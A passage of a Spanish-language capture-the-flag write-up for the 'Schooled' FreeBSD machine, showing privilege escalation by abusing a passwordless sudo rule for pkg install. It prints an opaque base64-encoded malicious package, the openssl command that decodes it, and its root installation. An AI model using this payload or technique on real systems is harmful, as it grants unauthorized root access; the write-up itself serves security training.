 `Imprimimos` el `path` en nuestra máquina

```
# echo $PATH                                      
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/snap/bin:/home/justice-reaper/.local/bin
```

`Exportamos` el `path` en la máquina víctima

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/snap/bin:/home/justice-reaper/.local/bin:$PATH
```

Vemos que como el usuario `jamie` podemos usar varios `comandos` como `sudo` sin proporcionar `contraseña`

```
sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

He encontrado una forma de `escalar privilegio`s con `pkg` [https://notes.vulndev.io/wiki/redteam/privilege-escalation/misc-1#install-malicious-pkg-package-freebsd](https://notes.vulndev.io/wiki/redteam/privilege-escalation/misc-1#install-malicious-pkg-package-freebsd), lo primero es usar este `payload` en la máquina víctima

```
[jamie@Schooled ~]$ echo -ne "/Td6WFoAAATm1rRGAgAhARYAAAB0L+Wj4Av/AZtdABWQxeTpWUBe1eamP+ls2fn+
> YN5XsDfDEr8t27Md5JzP4t+8d/o0LE//NyAUGS7Wf+A+JeCbQlP7soODqDlA1LLF
> SpsIL1H7nDpk/zu8AMu+Kgu7qmgRsxKQ6QFypLMcPt2VtMB6GUwmwyvSRD6TZed7
> G/N6i1kjHvBJBJFhqUf2qUQx+k7gUGAkRZVorBZQeZ//7jkNWNd9a2M9Sh1z4saF
> qdOyrl/C5qeYjtZIGiK8wqSinEoirmXoqCacF98wcFiTiqBWhYFUkGWcVEv/dW8Z
> wGCN9iaMKX2BYjuwJ+9q98bKYCvlodaKrCuigUW/JF5bQFhbFVEGOSXbQjoSEEFy
> 9OeHKHqsCeAeu5oV6qxtZHCXkHHO2Yl5Cbp8hN1qgDu8ojyrVnGYmoJi2tmINwi8
> /Czx34dfsEJKuJsAR77vQRiyhVJHTiE/WiWEYOZWkOY6iBaQ0Rc4VL9+oACiI3TS
> aw2JH9AIOibY84bHiSKqX1VxPT1qd4VXmG6UK+M68CIlPbI+4EplcQd/Myc7qMw1
> ggFhIiDewQE+AAAA0hV/rwDb4ksAAbcDgBgAADPJVnyxxGf7AgAAAAAEWVo=" | openssl enc -base64 -d > mypackage-1.0_5.txz
```

`Instalamos` el `paquete`

```
[jamie@Schooled ~]$ sudo /usr/sbin/pkg install --no-repo-update mypackage-1.0_5.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        mypackage: 1.0_5

Number of packages to be installed: 1

Proceed with this action? [y/N]: y
[1/1] Installing mypackage-1.0_5...
```
